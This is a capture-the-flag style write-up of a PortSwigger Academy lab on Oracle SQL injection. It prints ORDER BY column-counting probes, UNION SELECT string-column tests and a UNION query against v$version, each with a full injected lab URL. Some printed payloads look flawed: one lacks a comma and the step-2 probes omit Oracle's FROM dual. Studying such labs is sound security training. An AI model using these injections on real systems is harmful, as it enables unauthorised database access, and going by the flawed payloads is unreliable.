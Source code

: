 ## LAB : SQL injection attack, querying the database type and version on Oracle
[SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)  
**LEVEL**: PRACTITIONER  
**Description**: This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

## Solution
![LAB SCREENSHOT](./assets/lab5.1.PNG)

1. We need to determine the number of columns in the table
2. Determine which column is of type string/varchar
3. Display the Oracle database type and version

### 1. Determine the number of columns in the table
Using `ORDER BY` we can determine the number of columns in the table. `ORDER BY` sorts a table by a given column index. We can increment the column number by one until we get an error which will tell us that the previous number is the number of columns in the table. 

Trying the following parameters
`' ORDER BY 1--`
`' ORDER BY 2--`
`' ORDER BY 3--` 

On the last paramter where we order by 3 we get the following error `Internal Server Error` which is a 500 internal error. This means the number of columns in the table is 2.

FULL URL: `https://ac941fe51fb731d1c018f07200010045.web-security-academy.net/filter?category=Gifts' ORDER BY 3--`


### 2. Searching for string/varchar column
We need to determine if a column is of type string/varchar this is because we want to be able to return the random string value provided to us by the site as one of the fields. We need to check each column for string/varchar compatibility by return the any string value for the column.

Trying the following parameters
`' UNION SELECT 'abc',NULL--`
`' UNION SELECT NULL'abc'--` 
`' UNION SELECT 'abc','def'--` - Both Columns are of type string/varchar


FULL URL: `https://ac941fe51fb731d1c018f07200010045.web-security-academy.net/filter?category=Gifts' UNION SELECT NULL,'abc'--`

### 3.  Display the Oracle database type and version
We can now use `UNION` attack to banner values.

`' UNION SELECT 'BANNER',banner FROM v$version--`

FULL URL: `https://ac941fe51fb731d1c018f07200010045.web-security-academy.net/filter?category=Gifts' UNION SELECT 'BANNER',banner FROM v$version--`


![SOLVED LAB SCREENSHOT](./assets/lab5.2.PNG)


<!-- EOF -->